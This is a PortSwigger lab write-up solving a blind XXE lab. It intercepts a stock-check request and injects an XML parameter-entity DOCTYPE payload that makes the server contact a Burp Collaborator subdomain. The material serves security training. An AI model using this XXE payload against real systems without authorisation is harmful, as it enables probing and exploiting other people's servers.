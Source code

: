 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/0994c9c8-ca9c-4978-9348-56831a2c324f)

## Solution :

Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/e4c84648-24d3-406f-8f85-404223352b57)

Insert the following external entity definition in between the XML declaration and the stockCheck element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:

```xml
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d03f5c3b-aeed-47a3-a2ad-ab6447f0fbc6)

Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result in our payload.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/84968e64-241b-40d1-9a99-45402066192e)

Lab solved.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/9417b260-bac8-4a56-8ada-acf51f185c55)
